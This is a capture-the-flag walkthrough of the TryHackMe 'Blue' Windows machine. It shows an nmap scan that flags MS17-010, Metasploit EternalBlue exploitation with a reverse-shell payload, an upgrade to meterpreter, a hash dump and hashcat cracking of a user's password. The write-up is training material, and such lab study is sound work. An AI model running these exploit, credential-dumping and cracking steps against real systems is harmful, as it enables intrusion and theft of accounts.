 # Blue

Notes on tryhackme ctf.

A number of unnecessary steps were added for learning. 
Actually gaining system level access is a short task.

## recon

### nmap

`└─# nmap -sV -vv --script vuln 10.10.204.243`

```
PORT      STATE SERVICE      REASON          VERSION
135/tcp   open  msrpc        syn-ack ttl 128 Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack ttl 128 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds syn-ack ttl 128 Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  tcpwrapped   syn-ack ttl 128
|_ssl-ccs-injection: No reply from server (TIMEOUT)
49152/tcp open  msrpc        syn-ack ttl 128 Microsoft Windows RPC
49153/tcp open  msrpc        syn-ack ttl 128 Microsoft Windows RPC
49154/tcp open  msrpc        syn-ack ttl 128 Microsoft Windows RPC
49157/tcp open  msrpc        syn-ack ttl 128 Microsoft Windows RPC
49167/tcp open  msrpc        syn-ack ttl 128 Microsoft Windows RPC
MAC Address: 02:A4:76:B3:B3:A3 (Unknown)
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_smb-vuln-ms10-054: false
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 00:07
Completed NSE at 00:07, 0.00s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 00:07
Completed NSE at 00:07, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 131.28 seconds
           Raw packets sent: 1091 (47.988KB) | Rcvd: 1001 (40.064KB)
```


Vulnerable to Eternal Blue.


## initial access

### Metasploit

`msf6 > use exploit/windows/smb/ms17_010_eternalblue`

`msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/shell/reverse_tcp` (for learning).

`msf6 exploit(windows/smb/ms17_010_eternalblue) > run`

### converting shell to meterpreter

https://infosecwriteups.com/metasploit-upgrade-normal-shell-to-meterpreter-shell-2f09be895646

- ctrl+z
- `use post/multi/manage/shell_to_meterpreter`
- `set session 1`
Opens meterpreter session 2
- `sessions -i 2`



## escalation

This section is mostly just playing around with meterpreter and not actually necessary for this challenge (we already have system level access).

`C:\Windows\system32>whoami`

```
nt authority\system
```

`meterpreter > ps`

```
PID   PPID  Name                  Arch  Session  User                          Path
 ---   ----  ----                  ----  -------  ----                          ----
 0     0     [System Process]
 4     0     System                x64   0
 416   4     smss.exe              x64   0        NT AUTHORITY\SYSTEM           \SystemRoot\System32\smss.exe
 544   536   csrss.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\csrss.exe
 592   536   wininit.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\wininit.exe
 604   584   csrss.exe             x64   1        NT AUTHORITY\SYSTEM           C:\Windows\system32\csrss.exe
 644   584   winlogon.exe          x64   1        NT AUTHORITY\SYSTEM           C:\Windows\system32\winlogon.exe
 692   592   services.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\services.exe
 700   592   lsass.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\lsass.exe
 708   592   lsm.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\lsm.exe
 724   692   svchost.exe           x64   0        NT AUTHORITY\SYSTEM
 816   692   svchost.exe           x64   0        NT AUTHORITY\SYSTEM
 884   692   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE
 932   692   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE
 1000  644   LogonUI.exe           x64   1        NT AUTHORITY\SYSTEM           C:\Windows\system32\LogonUI.exe
 1020  692   svchost.exe           x64   0        NT AUTHORITY\SYSTEM
 1064  692   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE
 1168  692   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE
 1296  692   spoolsv.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\spoolsv.exe
 1332  692   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE
 1392  692   amazon-ssm-agent.exe  x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\SSM\amazon-ssm-agent.exe
 1468  692   LiteAgent.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\XenTools\LiteAgent.exe
 1488  816   WmiPrvSE.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\wbem\wmiprvse.exe
 1624  692   Ec2Config.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\Ec2ConfigService\Ec2Config.exe
 1820  724   WMIADAP.exe           x64   0        NT AUTHORITY\SYSTEM           \\?\C:\Windows\system32\wbem\WMIADAP.EXE
 1888  724   taskeng.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\taskeng.exe
 1940  692   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE
 2084  816   WmiPrvSE.exe
 2120  692   TrustedInstaller.exe  x64   0        NT AUTHORITY\SYSTEM
 2184  3036  powershell.exe        x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
 2348  692   mscorsvw.exe          x86   0        NT AUTHORITY\SYSTEM           C:\Windows\Microsoft.NET\Framework\v4.0.30319\mscorsvw.exe
 2360  692   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE
 2396  692   mscorsvw.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\Microsoft.NET\Framework64\v4.0.30319\mscorsvw.exe
 2440  1296  cmd.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\cmd.exe
 2448  544   conhost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\conhost.exe
 2508  692   sppsvc.exe            x64   0        NT AUTHORITY\NETWORK SERVICE
 2636  692   svchost.exe           x64   0        NT AUTHORITY\SYSTEM
 2656  544   conhost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\conhost.exe
 2672  692   vds.exe               x64   0        NT AUTHORITY\SYSTEM
 2820  692   SearchIndexer.exe     x64   0        NT AUTHORITY\SYSTEM
 3068  2348  mscorsvw.exe          x86   0        NT AUTHORITY\SYSTEM           C:\Windows\Microsoft.NET\Framework\v4.0.30319\mscorsvw.exe
```

### hashdump

`meterpreter > hashdump`

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```

`└─# echo "Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::" > hash`

`└─# hashcat -m 1000 hash /usr/share/wordlists/rockyou.txt`

```
ffb43f0de35be4d9917ac0cc8ad57f8d:alqfna22
```

## capturing the flags

`meterpreter > search -f *flag*`

